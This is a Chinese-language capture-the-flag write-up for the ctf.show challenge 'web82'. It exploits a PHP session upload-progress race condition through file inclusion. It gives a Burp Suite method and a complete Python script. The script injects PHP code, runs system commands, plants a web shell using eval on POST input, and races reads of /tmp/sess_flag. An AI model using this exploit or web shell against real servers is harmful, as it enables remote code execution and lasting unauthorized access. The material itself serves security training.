

# web82
本题需要用到session的条件竞争
1.用BP操作
首先在小皮下创建网页

```
<!DOCTYPE html>
<html>
<body>
<form action="http://79b5dbc7-b641-4e30-b8d9-4278f2234938.chall.ctf.show/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
```
访问后抓包,文件任意,发送到inruder模块

然后再去将靶场的包抓下来也放到intruder中(参数改为?file=/tmp/sess_flag),两者同时爆破(都设为null payloads)
注意将访问的线程和数量高于上传包

访问包线程用100
结果(左:上传包,右:包含包)



2.用脚本(大佬的给出注释)
```
# 导入所需库
import io  # 用于创建内存中的二进制流文件
import sys  # 系统相关操作，如退出程序
import requests  # 发送HTTP请求
import threading  # 多线程实现条件竞争

# 设置固定的 session ID（对应 PHP 的 /tmp/sess_flag 文件）
sessid = 'flag'


# 定义持续发送 POST 请求的函数（用于触发文件上传和session写入）
def POST(session):
    while True:  # 无限循环保持持续攻击
        # 创建一个50KB大小的虚拟文件（用于触发上传进度）
        f = io.BytesIO(b'a' * 1024 * 50)

        # 发送POST请求，关键参数：
        session.post(
            'http://01cef411-2835-49cf-9bdb-2465567aecf7.challenge.ctf.show/',
            data={
                # 利用PHP的上传进度机制注入PHP代码
                'PHP_SESSION_UPLOAD_PROGRESS': "<?php system('cat *');fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>"
            },
            files={'file': ('q.txt', f)},  # 上传虚拟文件
            cookies={'PHPSESSID': sessid}  # 指定session ID
        )


# 定义持续读取session文件的函数（用于检查攻击是否成功）
def READ(session):
    while True:
        # 访问服务器上的session文件（/tmp/sess_flag）
        response = session.get(
            f'http://01cef411-2835-49cf-9bdb-2465567aecf7.challenge.ctf.show/?file=/tmp/sess_{sessid}'
        )

        # 检查响应中是否包含flag（攻击成功标志）
        if 'flag' not in response.text:
            print('[+++]retry')  # 未成功则重试
        else:
            print(response.text)  # 输出包含flag的响应
            sys.exit(0)  # 成功后退出程序


# 主程序
with requests.session() as session:  # 创建持久会话
    # 创建并启动POST线程（守护线程模式，主线程退出时自动终止）
    t1 = threading.Thread(target=POST, args=(session,))
    t1.daemon = True
    t1.start()

    # 在主线程中启动读取检测（避免守护线程提前退出）
    READ(session)
```
